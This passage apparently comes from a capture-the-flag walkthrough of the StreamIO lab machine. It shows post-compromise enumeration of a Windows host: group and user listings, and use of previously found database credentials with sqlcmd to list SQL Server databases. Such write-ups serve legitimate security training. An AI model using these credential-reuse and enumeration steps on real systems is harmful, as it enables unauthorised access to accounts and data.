 ```powershell
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

PS C:\inetpub\streamio.htb\admin> net user
User accounts for \\DC
-------------------------------------------------------------------------------
Administrator            Guest                    JDgodd                   
krbtgt                   Martin                   nikk37                   
yoshihide                
The command completed successfully.
```

## SQLCmd

Ok, I admit this last part took me a while. I'd forgotten about the database credentials we found earlier. Anyway, the next step is look at the other database we found earlier. First we need to see if [sqlcmd](https://docs.microsoft.com/en-us/previous-versions/sql/2014/tools/sqlcmd-utility) is installed:

```powershell
PS C:\program files\microsoft sql server> gcm sqlcmd.exe | fl

Name            : SQLCMD.EXE
CommandType     : Application
Definition      : C:\Program Files\Microsoft SQL Server\Client SDK\ODBC\170\Tools\Binn\SQLCMD.EXE
Extension       : .EXE
Path            : C:\Program Files\Microsoft SQL Server\Client SDK\ODBC\170\Tools\Binn\SQLCMD.EXE
FileVersionInfo : File:             C:\Program Files\Microsoft SQL Server\Client SDK\ODBC\170\Tools\Binn\SQLCMD.EXE
                  InternalName:     SQLCMD
                  OriginalFilename: SQLCMD.exe
                  FileVersion:      2019.0150.2000.05 ((SQLServer).190924-2033)
                  FileDescription:  T-SQL execution command line utility
                  Product:          Microsoft SQL Server
                  ProductVersion:   15.0.2000.5
                  Language:         English (United States)
```

It is which means we can interact with the sql server locally. First list all the databases:

```powershell
PS C:\windows\temp> sqlcmd -S 127.0.0.1 -U db_admin -P "B1@hx31234567890" -Q "SELECT name FROM sys.databases;"
name
-------------------------------------------------------
master
tempdb
model
msdb
STREAMIO
streamio_backup
(6 rows affected)
```
